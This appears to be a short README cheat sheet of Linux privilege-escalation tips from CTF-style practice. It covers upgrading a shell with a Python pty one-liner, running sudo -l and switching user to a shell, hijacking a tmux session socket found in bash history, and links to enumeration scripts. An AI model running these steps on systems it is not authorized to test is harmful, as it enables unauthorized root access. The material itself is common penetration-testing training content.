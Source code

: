 # Linux Priv escalation Tips

# ${{\color{purple}Upgrade shell}}\ $

`python -c 'import pty; pty.spawn("/bin/bash")'`

`python3 -c 'import pty; pty.spawn("/bin/bash")'`

# ${{\color{purple}Auto-Completion}}\ $

``ctrl z`` 

``stty raw -echo``

``fg enter``

# ${{\color{purple}Manual testing}}\ $
# ${{\color{green}sudo -l}}\ $

`sudo -l`

![1](https://user-images.githubusercontent.com/123066149/225001578-46a486b7-bf12-44ef-b52d-1408ef34fb1e.PNG)

`sudo -u scriptmanager /bin/bash`

![image](https://user-images.githubusercontent.com/123066149/225002081-e468220b-fddf-493b-a817-7d64b90accc1.png)

# ${{\color{green}tmux}}\ $

``cat .bash_history``

![image](https://user-images.githubusercontent.com/123066149/226274014-d15271f8-178e-4891-9a3a-7e7fba239035.png)

``ps aux | grep -i tmux``

![image](https://user-images.githubusercontent.com/123066149/226274186-eb4fb8f5-1e4b-4752-ac3d-3fe6e9889d3d.png)

``ls -la /.devs/dev_ses``

![image](https://user-images.githubusercontent.com/123066149/226274516-f2a84f6f-121b-44b6-85c2-84cbb944435a.png)

``export TERM=xterm``
``tmux -S /.devs/dev_sess``

![image](https://user-images.githubusercontent.com/123066149/226274864-b5db7a5e-f19f-4854-929f-aa2f491ae328.png)
![image](https://user-images.githubusercontent.com/123066149/226275042-06bc4a86-474e-486f-a4e4-00ac3e2e4950.png)


# ${{\color{purple}Script}}\ $
# ${{\color{green}LinEnum}}\ $

https://github.com/rebootuser/LinEnum

# ${{\color{green}Linux-Exploit-Suggester}}\ $

https://github.com/The-Z-Labs/linux-exploit-suggester

# ${{\color{purple}}}\ $

